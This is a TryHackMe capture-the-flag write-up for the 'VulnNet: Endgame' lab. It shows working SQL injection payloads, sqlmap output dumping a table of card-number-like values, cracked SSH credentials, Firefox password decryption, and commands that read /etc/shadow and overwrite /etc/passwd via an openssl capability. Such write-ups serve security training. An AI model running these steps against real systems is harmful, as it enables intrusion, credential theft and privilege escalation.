

# TryHackMe-VulnNet: Endgame

**Scope:**

- TYPO3 CMS
- Linux Capabilities

**Keywords:**

- Subdomain & Virtual Host Enumeration
- SQL Injection
- Password Cracking
- TYPO3 CMS Internal Access
- TYPO3 CMS Settings Manipulation
- Firefox Decryption
- openssl
- Linux Capabilities

**Main Commands:**

- `nmap -sSVC -oN nmap_result.txt -Pn -F -O -A $target_ip`
- `wfuzz -u 'http://vulnnet.thm' -H 'Host: FUZZ.vulnnet.thm' -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -c -t 50 --hc 403,404,500,501,502 --hw 9`
- `sqlmap --random-agent -r sqlmaprequest.txt --dump --batch -p 'blog' --dbs`
- `sqlmap --random-agent -u "http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1" -p blog --dbms=mysql -D vn_admin --tables`
- `sqlmap --random-agent --batch -u "http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1" -p blog --dbms=mysql -D vn_admin -T be_users --columns`
- `sqlmap -u "http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1" -p blog --dbms=mysql -D vn_admin -T be_users -C username,password --dump`
- `cat /root/.local/share/sqlmap/output/api.vulnnet.thm/dump/blog/users.csv | cut -d "," -f2 > passwords.list`
- `sudo john --wordlist=passwords.list chrishash`
- `crackmapexec ssh vulnnet.thm -u 'chris_w' -p 'vAxWtmNzeTz' --port 22 -x 'whoami'`
- `gobuster dir -u http://admin1.vulnnet.thm -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -e -b 403,404,500,501,502,503 --random-agent -t 60`
- `unzip browser.rar`
- `python3 firefox_decrypt/firefox_decrypt.py home/system/.mozilla/firefox/2fjnrwth.default-release/`
- `ssh system@vulnnet.thm -p 22`
- `openssl passwd -6 --salt randomsalt hello_world`

**System Commands:**

- `su overthenet`
- `cat /tmp/passwd.bak | ./openssl enc -out /etc/passwd`
- `./openssl enc -in /etc/shadow`
- `getcap -r / 2>/dev/null`
- `zip -r /tmp/browser.rar /home/system/.mozilla/`
- `grep -r 'password'`
- `ss -tulwn`
- `python3 -c 'import pty;pty.spawn("/bin/bash")'`
- `export TERM=xterm`

### Laboratory Environment

[VulnNet: Endgame](https://tryhackme.com/r/room/vulnnetendgame)

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sSVC -oN nmap_result.txt -Pn -F -O -A $target_ip`

```jsx
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bb:2e:e6:cc:79:f4:7d:68:2c:11:bc:4b:63:19:08:af (RSA)
|   256 80:61:bf:8c:aa:d1:4d:44:68:15:45:33:ed:eb:82:a7 (ECDSA)
|_  256 87:86:04:e9:e0:c0:60:2a:ab:87:8e:9b:c7:05:35:1c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Soon &mdash; Fully Responsive Software Design by VulnNe
```

`nano /etc/hosts`

```jsx
10.10.45.201    vulnnet.thm
```

> **HTTP Port Check**
> 

`curl -iLX GET -D response.txt http://vulnnet.thm`

```jsx
HTTP/1.1 200 OK
Date: Fri, 15 Nov 2024 10:40:58 GMT
Server: Apache/2.4.29 (Ubuntu)
Last-Modified: Thu, 02 Jun 2022 17:15:30 GMT
ETag: "10fa-5e07a2716f080"
Accept-Ranges: bytes
Content-Length: 4346
Vary: Accept-Encoding
Content-Type: text/html

        <title>Soon &mdash; Fully Responsive Software Design by VulnNet</title>
        <meta name="viewport" content="width=device-width, initial-scale=1">

        <!-- Facebook and Twitter integration -->
        <meta property="og:title" content=""/>
        <meta property="og:image" content=""/>
        <meta property="og:url" content=""/>
        <meta property="og:site_name" content=""/>
        <meta property="og:description" content=""/>
        <meta name="twitter:title" content="" />
        <meta name="twitter:image" content="" />
        <meta name="twitter:url" content="" />
        <meta name="twitter:card" content="" />

        <!-- <link href='https://fonts.googleapis.com/css?family=Work+Sans:400,300,600,400italic,700' rel='stylesheet' type='text/css'> -->
        <link href="https://fonts.googleapis.com/css?family=Space+Mono" rel="stylesheet">

        <!-- Animate.css -->
        <link rel="stylesheet" href="css/animate.css">
        <!-- Icomoon Icon Fonts-->
        <link rel="stylesheet" href="css/icomoon.css">
        <!-- Bootstrap  -->
        <link rel="stylesheet" href="css/bootstrap.css">
        <!-- Theme style  -->
        <link rel="stylesheet" href="css/style.css">

        <!-- Modernizr JS -->
        <script src="js/modernizr-2.6.2.min.js"></script>
        <!-- FOR IE9 below -->
        <!--[if lt IE 9]>
        <script src="js/respond.min.js"></script>
        <![endif]-->

        </head>
        <body>

        <div class="fh5co-loader"></div>

        <div id="page">

        <div id="fh5co-container" class="js-fullheight">
                <div class="countdown-wrap js-fullheight">
                        <div class="row">
                                <div class="col-md-12 text-center">
                                        <div class="display-t js-fullheight">
                                                <div class="display-tc animate-box">
                                                        <nav class="fh5co-nav" role="navigation">
                                                                <div id="fh5co-logo"><a href="index.html">Soon<strong>.</strong></a></div>
                                                        </nav>
                                                        <h1>We Are Coming Soon!</h1>
                                                        <h2>New User Experience Delivered by <a href="#">VulnNet Entertainment</a></h2>
                                                        <div class="simply-countdown simply-countdown-one"></div>
                                                        <div class="row">
                                                                <div class="col-md-12 desc">
                                                                        <h2>Our webiste is opening soon. <br> Please register to notify you when it's ready!</h2>
                                                                        <form class="form-inline" id="fh5co-header-subscribe">
                                                                                <div class="col-md-12 col-md-offset-0">
                                                                                        <div class="form-group">
                                                                                                <input type="text" class="form-control" id="email" placeholder="Get notify by email">
                                                                                                <button type="submit" class="btn btn-primary">Subscribe</button>
                                                                                        </div>
                                                                                </div>
                                                                        </form>
                                                                        <ul class="fh5co-social-icons">
                                                                                <li><a href="#"><i class="icon-twitter-with-circle"></i></a></li>
                                                                                <li><a href="#"><i class="icon-facebook-with-circle"></i></a></li>
                                                                                <li><a href="#"><i class="icon-linkedin-with-circle"></i></a></li>
                                                                                <li><a href="#"><i class="icon-dribbble-with-circle"></i></a></li>
                                                                        </ul>
                                                                </div>
                                                        </div>
                                                </div>
                                        </div>
                                </div>
                        </div>
                </div>
                <div class="bg-cover js-fullheight" style="background-image:url(images/workspace.jpg);">

                </div>
        </div>
        </div>

        <div class="gototop js-top">
                <a href="#" class="js-gotop"><i class="icon-arrow-up"></i></a>
        </div>

        <!-- jQuery -->
        <script src="js/jquery.min.js"></script>
        <!-- jQuery Easing -->
        <script src="js/jquery.easing.1.3.js"></script>
        <!-- Bootstrap -->
        <script src="js/bootstrap.min.js"></script>
        <!-- Waypoints -->
        <script src="js/jquery.waypoints.min.js"></script>

        <!-- Count Down -->
        <script src="js/simplyCountdown.js"></script>
        <!-- Main -->
        <script src="js/main.js"></script>

        <script>
    var d = new Date(new Date().getTime() + 1000 * 120 * 120 * 2000);

    // default example
    simplyCountdown('.simply-countdown-one', {
        year: d.getFullYear(),
        month: d.getMonth() + 1,
        day: d.getDate()
    });

    //jQuery example
    $('#simply-countdown-losange').simplyCountdown({
        year: d.getFullYear(),
        month: d.getMonth() + 1,
        day: d.getDate(),
        enableUtc: false
    });
</script>

        </body>
</html>
```

> **Subdomain & Virtual Host Enumeration Phase**
> 

`wfuzz -u 'http://vulnnet.thm' -H 'Host: FUZZ.vulnnet.thm' -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -c -t 50 --hc 403,404,500,501,502 --hw 9`

```jsx
000000051:   200        0 L      4 W        18 Ch       "api"                                                 
000000018:   200        390 L    1599 W     19316 Ch    "blog"                                                
000000037:   200        524 L    1406 W     26701 Ch    "shop"                                                
000000689:   400        10 L     35 W       301 Ch      "gc._msdcs"                                           
000001219:   307        0 L      0 W        0 Ch        "admin1"
```

> **Endpoint & Subdomain Control Phase**
> 

`nano /etc/hosts`

```jsx
10.10.45.201    vulnnet.thm api.vulnnet.thm blog.vulnnet.thm shop.vulnnet.thm admin1.vulnnet.thm
```

`curl -iLX GET -D apiresponse.txt http://api.vulnnet.thm`

```jsx
HTTP/1.1 200 OK
Date: Fri, 15 Nov 2024 12:36:44 GMT
Server: Apache/2.4.29 (Ubuntu)
Access-Control-Allow-Origin: *
Content-Length: 18
Content-Type: text/html; charset=UTF-8

VulnNet API is up!
```

`curl -iLX POST -D apiresponse.txt http://api.vulnnet.thm`

```jsx
HTTP/1.1 200 OK
Date: Fri, 15 Nov 2024 12:38:05 GMT
Server: Apache/2.4.29 (Ubuntu)
Access-Control-Allow-Origin: *
Content-Length: 18
Content-Type: text/html; charset=UTF-8

VulnNet API is up!
```

`curl -iLX GET -D blogresponse.txt http://blog.vulnnet.thm`

```jsx
HTTP/1.1 200 OK
Date: Fri, 15 Nov 2024 12:39:25 GMT
Server: Apache/2.4.29 (Ubuntu)
Last-Modified: Sun, 05 Jun 2022 15:37:28 GMT
ETag: "4b74-5e0b52204de00"
Accept-Ranges: bytes
Content-Length: 19316
Vary: Accept-Encoding
Content-Type: text/html

[REDACTED] - MORE
```

`curl -iLX GET -D blogresponse.txt http://blog.vulnnet.thm | grep '.php'`

```jsx
<a href="post1.php">
            <h2 class="card-title"><a href="post1.php">Windows Search Vulnerability Can be Abused to Deliver...</a></h2>
                            <span class="post-read-more"><a href="post1.php" title="Read Story"><svg class="svgIcon-use" width="25" height="25" viewbox="0 0 25 25"><path d="M19 6c0-1.1-.9-2-2-2H8c-1.1 0-2 .9-2 2v14.66h.012c.01.103.045.204.12.285a.5.5 0 0 0 .706.03L12.5 16.85l5.662 4.126a.508.508 0 0 0 .708-.03.5.5 0 0 0 .118-.285H19V6zm-6.838 9.97L7 19.636V6c0-.55.45-1 1-1h9c.55 0 1 .45 1 1v13.637l-5.162-3.668a.49.49 0 0 0-.676 0z" fill-rule="evenodd"></path></svg></a></span>
                                        <a href="post3.php">
                                                <h2 class="card-title"><a href="post3.php">Telegram’s Blogging Platform Exploited in Phishing Attacks...</a></h2>
                                                                <span class="post-read-more"><a href="post3.php" title="Read Story"><svg class="svgIcon-use" width="25" height="25" viewbox="0 0 25 25"><path d="M19 6c0-1.1-.9-2-2-2H8c-1.1 0-2 .9-2 2v14.66h.012c.01.103.045.204.12.285a.5.5 0 0 0 .706.03L12.5 16.85l5.662 4.126a.508.508 0 0 0 .708-.03.5.5 0 0 0 .118-.285H19V6zm-6.838 9.97L7 19.636V6c0-.55.45-1 1-1h9c.55 0 1 .45 1 1v13.637l-5.162-3.668a.49.49 0 0 0-.676 0z" fill-rule="evenodd"></path></svg></a></span>
                                        <a href="post2.php">
                                                <h2 class="card-title"><a href="post2.php">Browser Automation Framework is the New Threat...</a></h2>
                                                                <span class="post-read-more"><a href="post2.php" title="Read Story"><svg class="svgIcon-use" width="25" height="25" viewbox="0 0 25 25"><path d="M19 6c0-1.1-.9-2-2-2H8c-1.1 0-2 .9-2 2v14.66h.012c.01.103.045.204.12.285a.5.5 0 0 0 .706.03L12.5 16.85l5.662 4.126a.508.508 0 0 0 .708-.03.5.5 0 0 0 .118-.285H19V6zm-6.838 9.97L7 19.636V6c0-.55.45-1 1-1h9c.55 0 1 .45 1 1v13.637l-5.162-3.668a.49.49 0 0 0-.676 0z" fill-rule="evenodd"></path></svg></a></span>
                                        <a href="post4.php">
                                                <h2 class="card-title"><a href="post4.php">Windows MSDT zero-day now exploited by APT hackers...</a></h2>
                                                                <span class="post-read-more"><a href="post4.php" title="Read Story"><svg class="svgIcon-use" width="25" height="25" viewbox="0 0 25 25"><path d="M19 6c0-1.1-.9-2-2-2H8c-1.1 0-2 .9-2 2v14.66h.012c.01.103.045.204.12.285a.5.5 0 0 0 .706.03L12.5 16.85l5.662 4.126a.508.508 0 0 0 .708-.03.5.5 0 0 0 .118-.285H19V6zm-6.838 9.97L7 19.636V6c0-.55.45-1 1-1h9c.55 0 1 .45 1 1v13.637l-5.162-3.668a.49.49 0 0 0-.676 0z" fill-rule="evenodd"></path></svg></a></span>
                        <a href="post5.php">
                                <h2 class="card-title"><a href="post5.php">57% of all digital crimes in 2021 were scams...</a></h2>
                                                <span class="post-read-more"><a href="post5.php" title="Read Story"><svg class="svgIcon-use" width="25" height="25" viewbox="0 0 25 25"><path d="M19 6c0-1.1-.9-2-2-2H8c-1.1 0-2 .9-2 2v14.66h.012c.01.103.045.204.12.285a.5.5 0 0 0 .706.03L12.5 16.85l5.662 4.126a.508.508 0 0 0 .708-.03.5.5 0 0 0 .118-.285H19V6zm-6.838 9.97L7 19.636V6c0-.55.45-1 1-1h9c.55 0 1 .45 1 1v13.637l-5.162-3.668a.49.49 0 0 0-.676 0z" fill-rule="evenodd"></path></svg></a></span>
                        <a href="post5.php">
                                <h2 class="card-title"><a href="post5.php">Best galleries in the world with photos</a></h2>
                                                <span class="post-read-more"><a href="post5.php" title="Read Story"><svg class="svgIcon-use" width="25" height="25" viewbox="0 0 25 25"><path d="M19 6c0-1.1-.9-2-2-2H8c-1.1 0-2 .9-2 2v14.66h.012c.01.103.045.204.12.285a.5.5 0 0 0 .706.03L12.5 16.85l5.662 4.126a.508.508 0 0 0 .708-.03.5.5 0 0 0 .118-.285H19V6zm-6.838 9.97L7 19.636V6c0-.55.45-1 1-1h9c.55 0 1 .45 1 1v13.637l-5.162-3.668a.49.49 0 0 0-.676 0z" fill-rule="evenodd"></path></svg></a></span>
                        <a href="post5.php">
                                <h2 class="card-title"><a href="post5.php">The Added Dangers Privileged Accounts Pose to Your Active Directory...</a></h2>
                                                <span class="post-read-more"><a href="post5.php" title="Read Story"><svg class="svgIcon-use" width="25" height="25" viewbox="0 0 25 25"><path d="M19 6c0-1.1-.9-2-2-2H8c-1.1 0-2 .9-2 2v14.66h.012c.01.103.045.204.12.285a.5.5 0 0 0 .706.03L12.5 16.85l5.662 4.126a.508.508 0 0 0 .708-.03.5.5 0 0 0 .118-.285H19V6zm-6.838 9.97L7 19.636V6c0-.55.45-1 1-1h9c.55 0 1 .45 1 1v13.637l-5.162-3.668a.49.49 0 0 0-.676 0z" fill-rule="evenodd"></path></svg></a></span>
                        <a href="post5.php">
                                <h2 class="card-title"><a href="post5.php">Thinking outside the box can help you prosper</a></h2>
                                                <span class="post-read-more"><a href="post5.php" title="Read Story"><svg class="svgIcon-use" width="25" height="25" viewbox="0 0 25 25"><path d="M19 6c0-1.1-.9-2-2-2H8c-1.1 0-2 .9-2 2v14.66h.012c.01.103.045.204.12.285a.5.5 0 0 0 .706.03L12.5 16.85l5.662 4.126a.508.508 0 0 0 .708-.03.5.5 0 0 0 .118-.285H19V6zm-6.838 9.97L7 19.636V6c0-.55.45-1 1-1h9c.55 0 1 .45 1 1v13.637l-5.162-3.668a.49.49 0 0 0-.676 0z" fill-rule="evenodd"></path></svg></a></span>
                        <a href="post5.php">
                                <h2 class="card-title"><a href="post5.php">10 Things you should know about choosing your house</a></h2>
100 19316  100 19316    0     0  19317      0 --:--:-- --:--:-- --:--:-- 19316
                                                <span class="post-read-more"><a href="post5.php" title="Read Story"><svg class="svgIcon-use" width="25" height="25" viewbox="0 0 25 25"><path d="M19 6c0-1.1-.9-2-2-2H8c-1.1 0-2 .9-2 2v14.66h.012c.01.103.045.204.12.285a.5.5 0 0 0 .706.03L12.5 16.85l5.662 4.126a.508.508 0 0 0 .708-.03.5.5 0 0 0 .118-.285H19V6zm-6.838 9.97L7 19.636V6c0-.55.45-1 1-1h9c.55 0 1 .45 1 1v13.637l-5.162-3.668a.49.49 0 0 0-.676 0z" fill-rule="evenodd"></path></svg></a></span>
                        <a href="post5.php">
                                <h2 class="card-title"><a href="post5.php">Visiting the world means learning cultures</a></h2>
                                                <span class="post-read-more"><a href="post5.php" title="Read Story"><svg class="svgIcon-use" width="25" height="25" viewbox="0 0 25 25"><path d="M19 6c0-1.1-.9-2-2-2H8c-1.1 0-2 .9-2 2v14.66h.012c.01.103.045.204.12.285a.5.5 0 0 0 .706.03L12.5 16.85l5.662 4.126a.508.508 0 0 0 .708-.03.5.5 0 0 0 .118-.285H19V6zm-6.838 9.97L7 19.636V6c0-.55.45-1 1-1h9c.55 0 1 .45 1 1v13.637l-5.162-3.668a.49.49 0 0 0-.676 0z" fill-rule="evenodd"></path></svg></a></span>
```

`curl -iLX POST http://blog.vulnnet.thm/post1.php`

```jsx

HTTP/1.1 200 OK
Date: Fri, 15 Nov 2024 12:45:08 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8

[REDACTED] - MORE

   xhr.send();
};

getJSON('http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1',  function(err, data) {

    if (err != null) {
        console.error(err);
    } else {
        //unfinished
        //move to js assets
        console.log(text);
    }
});
</script>

[REDACTED] - MORE
```

`curl -iLX GET -D apiendresponse.txt http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1`

```jsx
HTTP/1.1 200 OK
Date: Fri, 15 Nov 2024 12:46:55 GMT
Server: Apache/2.4.29 (Ubuntu)
Access-Control-Allow-Origin: *
Content-Length: 116
Content-Type: application/json

{"request_id":"1","blog_id":"1","titles":"Windows Search Vulnerability Can be Abused to Deliver","status":"posted"}
```

> **SQL Injection Phase**
> 

`curl -iLX GET -D apiendresponse.txt "http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=%27%20UNION%20SELECT%201%2C--%20-"`

```jsx
HTTP/1.1 200 OK
Date: Fri, 15 Nov 2024 12:50:24 GMT
Server: Apache/2.4.29 (Ubuntu)
Access-Control-Allow-Origin: *
Content-Length: 75
Content-Type: application/json

{"request_id":null,"blog_id":null,"titles":200,"status":"No Record Found"}

```

`curl -iLX GET -D apiendresponse.txt "http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1%20UNION%20SELECT%201,2,3--"`

```jsx
HTTP/1.1 200 OK
Date: Fri, 15 Nov 2024 12:53:10 GMT
Server: Apache/2.4.29 (Ubuntu)
Access-Control-Allow-Origin: *
Content-Length: 137
Content-Type: application/json

{"request_id":"1 UNION SELECT 1,2,3--","blog_id":"1","titles":"Windows Search Vulnerability Can be Abused to Deliver","status":"posted"}
```

`curl -iLX GET -D apiendresponse.txt "http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1%20UNION%20SELECT%201,%20@@version,%203--"`

```jsx
HTTP/1.1 200 OK
Date: Fri, 15 Nov 2024 12:55:28 GMT
Server: Apache/2.4.29 (Ubuntu)
Access-Control-Allow-Origin: *
Content-Length: 147
Content-Type: application/json

{"request_id":"1 UNION SELECT 1, @@version, 3--","blog_id":"1","titles":"Windows Search Vulnerability Can be Abused to Deliver","status":"posted"}
```



`sqlmap --random-agent -r sqlmaprequest.txt --dump --batch -p 'blog' --dbs`

```jsx
[08:02:43] [INFO] GET parameter 'blog' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'blog' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 77 HTTP(s) requests:
---
Parameter: blog (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: blog=1 AND 4105=4105

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: blog=1 AND (SELECT 9271 FROM (SELECT(SLEEP(5)))tmKg)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: blog=-3807 UNION ALL SELECT NULL,CONCAT(0x717a717871,0x656643556d554a554f594277645755656b697a6379716e6570516158717052597265714241634b66,0x7176706b71),NULL-- -
---
[08:02:44] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 18.04 (bionic)
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[08:02:46] [INFO] fetching database names
available databases [3]:
[*] blog
[*] information_schema
[*] vn_admin

[08:02:47] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[08:02:47] [INFO] fetching current database
[08:02:47] [INFO] fetching tables for database: 'blog'
[08:02:47] [INFO] fetching columns for table 'details' in database 'blog'
[08:02:48] [INFO] fetching entries for table 'details' in database 'blog'
Database: blog
Table: details
[500 entries]
+-----+---------------------+--------------------------+------------+
| id  | cc                  | city                     | first_name |
+-----+---------------------+--------------------------+------------+
[08:02:49] [WARNING] console output will be trimmed to last 256 rows due to large table size
| 245 | 4026945650998709    | Casa Nova                | Emiline    |
| 246 | 676138150149688959  | Ceper                    | Brunhilda  |
| 247 | 5100146253153877    | Wutan                    | Kamilah    |
| 248 | 5378400745907100    | San Luis del Palmar      | Theressa   |
| 249 | 3550773883786568    | Yukuriawat               | Janifer    |
| 250 | 676335874374611953  | Az Zarq?                 | Cleve      |
| 251 | 5602236258353193    | Putrajaya                | Olag       |
| 252 | 3530084732671315    | Ramat HaSharon           | Conchita   |
| 253 | 4508527803723460    | ??????                   | Blisse     |
| 254 | 3533558974647171    | Vakhtan                  | Bald       |
| 255 | 3578061223952787    | Várzea                   | Ileane     |
| 256 | 30497191146424      | Donghe                   | Valida     |
| 257 | 3562583579486530    | Obock                    | Lauralee   |
| 258 | 3552005562224001    | Ziroudani                | Darrel     |
| 259 | 6304631542916996    | El Soberbio              | Marget     |
| 260 | 5528607392499608    | Jackson                  | Sandye     |
| 261 | 3575144199303756    | Tougan                   | Otes       |
| 262 | 5602224817659607    | Mayumba                  | Loni       |
| 263 | 3571662332196831    | Nizhniye Achaluki        | Evelyn     |
| 264 | 4844260412899645    | Novorossiysk             | Kimberlyn  |
| 265 | 30593696021938      | Alexandria               | Indira     |
| 266 | 201957833905670     | Palaiseau                | Dorian     |
| 267 | 3571953765037422    | Gamleby                  | Fanchon    |
| 268 | 4405290479969636    | Dawei                    | Forbes     |
| 269 | 3573336246159023    | Plereyan                 | Arman      |
| 270 | 201407102743865     | Quiches                  | Edlin      |
| 271 | 6759640042643110136 | Donja Brela              | Stella     |
| 272 | 3569692251119666    | Huilong                  | Perrine    |
| 273 | 6334265069176513804 | Haunubenak               | Jeremiah   |
| 274 | 3549468100488866    | Meadow Lake              | Torrie     |
| 275 | 4917241771531559    | Veghel                   | Harland    |
| 276 | 4913523327987631    | Ba? Göynük               | Jonell     |
| 277 | 3564673479449965    | Januszkowice             | Northrop   |
| 278 | 63049464730033684   | Langgen                  | Abie       |
| 279 | 4041373729557       | Shahumyan                | Joleen     |
| 280 | 5602224121839273119 | Tadine                   | Marget     |
| 281 | 5602240109082368876 | Bologna                  | Pete       |
| 282 | 3569194586576546    | Lampa                    | Marcellus  |
| 283 | 30384930599313      | Luan Balu                | Jade       |
| 284 | 3579252651857247    | Luebo                    | Wendie     |
| 285 | 4041371095381       | Hamburg                  | Miguel     |
| 286 | 6392153219461746    | Kogon                    | Cordie     |
| 287 | 5552472811977851    | Carcassonne              | Verney     |
| 288 | 5610684344597120829 | Dióni                    | Dorelia    |
| 289 | 30438996117376      | Emiliano Zapata          | Raimundo   |
| 290 | 4905774046316004277 | Prokhladnyy              | Eolanda    |
| 291 | 201810626722432     | Naurskaya                | Billie     |
| 292 | 6395283438827059    | Sendung                  | Dido       |
| 293 | 30325264472387      | Loúros                   | Jimmie     |
| 294 | 3564162067072553    | Ili                      | Paten      |
| 295 | 4405100989679536    | Fiais da Beira           | Tanya      |
| 296 | 3539757271334640    | Sidirókastro             | Luella     |
| 297 | 4017950760652       | Shorapani                | Barri      |
| 298 | 30199987090564      | Kiruna                   | Alis       |
| 299 | 677112694951661990  | Qianfoling               | Heddi      |
| 300 | 3556911344031646    | Schirmeck                | Harlan     |
| 301 | 589387815088166315  | Uitiuhtuan               | Linzy      |
| 302 | 5018686086660688240 | Karlskoga                | Vergil     |
| 303 | 36611695635997      | Krasnofarfornyy          | Nickolai   |
| 304 | 30029088997930      | Long Beluah              | Rici       |
| 305 | 5641820381398317    | Kukich??                 | Agnes      |
| 306 | 3541492585045783    | Reinaldes                | Janessa    |
| 307 | 4091217119093       | Kiruna                   | Aundrea    |
| 308 | 6759782078253740    | Qingshi                  | Daryl      |
| 309 | 060440972590457083  | Xindu                    | Hazel      |
| 310 | 3558972355536772    | Chatan                   | Kim        |
| 311 | 670660191701098871  | Buda-Kashalyova          | Kahlil     |
| 312 | 4860990708905206    | Jaru                     | Rafael     |
| 313 | 3589148425851813    | Mpika                    | Marcus     |
| 314 | 6392599867154043    | ‘Ayn al Bay??            | Kristin    |
| 315 | 6763386985682621    | Kafr Kann?               | Angel      |
| 316 | 6762361879595552497 | Kórnik                   | Rahel      |
| 317 | 5893524744629568943 | Thakhèk                  | Boyd       |
| 318 | 5602259741338431    | General Luna             | Nichol     |
| 319 | 5602242712770105    | Xin’an                   | Kylila     |
| 320 | 3588817751510554    | Jiapeng                  | Krystle    |
| 321 | 372301041780992     | Ngilengan                | Gavra      |
| 322 | 374283039548771     | Arevshat                 | Cassaundra |
| 323 | 201452432739902     | Maumbawa                 | Wilmette   |
| 324 | 3565649470566436    | Boden                    | Vicky      |
| 325 | 4041596591023486    | Ayapel                   | Gretta     |
| 326 | 3583875573049404    | Yujiao                   | Vivyanne   |
| 327 | 6759234954410549    | Lobatse                  | Pedro      |
| 328 | 5610143346570657    | Francisco Villa          | Clareta    |
| 329 | 3557365880632854    | Mukun                    | Agnes      |
| 330 | 3580692170402834    | Meixian                  | Joellyn    |
| 331 | 5100139496855085    | Nancy                    | Erhart     |
| 332 | 4905932990577068    | Vindeln                  | Andriette  |
| 333 | 3563316771008987    | Cahabón                  | Gisela     |
| 334 | 5048374816289286    | Dalamdesa Kalapadua      | Isadore    |
| 335 | 5893187430099774    | Ruchihe                  | Care       |
| 336 | 6331108571195467133 | Gowarczów                | Jillian    |
| 337 | 3578336514865074    | Lyon                     | Cindy      |
| 338 | 5100135771630557    | Rab??-e Sang?-ye P?’?n   | Sarette    |
| 339 | 3546697989753791    | Yichun                   | Austina    |
| 340 | 201580639379070     | Coaticook                | Jackelyn   |
| 341 | 3552188067936947    | H?t                      | Matilda    |
| 342 | 3585740947579585    | Kaparéllion              | Ned        |
| 343 | 4175004579028310    | Camacupa                 | Rachele    |
| 344 | 3565928964213410    | Port-Cartier             | Laurena    |
| 345 | 3559139333146111    | Argivai                  | Miriam     |
| 346 | 36018968122028      | Toulouse                 | Shaine     |
| 347 | 5602244593613594    | K?ty                     | Nerita     |
| 348 | 3586128696992630    | Shiliting                | Darrel     |
| 349 | 5326566486330497    | Caijiagang               | Ebonee     |
| 350 | 6333620364428151889 | Bia?a Piska              | Rosy       |
| 351 | 3589221428512987    | Coro                     | Hermon     |
| 352 | 3574104935926063    | Shuinanxu                | Winne      |
| 353 | 3564494144907760    | At-Bashi                 | Deanne     |
| 354 | 5443928265671749    | Tujing                   | Toby       |
| 355 | 3570176390867044    | Rakai                    | Skip       |
| 356 | 4936743403250976    | Vynohradivka             | Bernarr    |
| 357 | 5489550942105316    | Tiabaya                  | Devin      |
| 358 | 3583905619032666    | Polovinnoye              | Thane      |
| 359 | 3585070850955998    | Raas                     | Gualterio  |
| 360 | 5602249007493251    | Yong’an                  | Dannie     |
| 361 | 3537760684162584    | Bueng Khong Long         | Brynn      |
| 362 | 3569818582054666    | Markópoulo Oropoú        | Caresa     |
| 363 | 5268441121284006    | Akráta                   | Mariel     |
| 364 | 6759605284969462    | Nanshe                   | Jonathon   |
| 365 | 67062658330412619   | Rehn?n                   | Roobbie    |
| 366 | 3556396415561244    | Santa Quitéria           | Henrik     |
| 367 | 3571134219566056    | Valence                  | Gard       |
| 368 | 3554538179276905    | Guxi                     | Cesaro     |
| 369 | 3557944705454668    | Iza                      | Grace      |
| 370 | 633325333754892629  | Forshaga                 | Bradley    |
| 371 | 3573576080358443    | Matina                   | Immanuel   |
| 372 | 630423006195003447  | Rajal Norte              | Belia      |
| 373 | 56022113514796736   | Nastola                  | Caryn      |
| 374 | 4844443421009139    | Ar Raw?                  | Ellswerth  |
| 375 | 3584995554249440    | Sambonggede              | Rhiamon    |
| 376 | 3553923785376151    | Dumalinao                | Christal   |
| 377 | 6334860948548210    | Dimitrov                 | Farlay     |
| 378 | 5191759412716341    | Bothaville               | Elvyn      |
| 379 | 3547353376796931    | Pasacao                  | Fleur      |
| 380 | 5559135671708962    | Baixi                    | Nichole    |
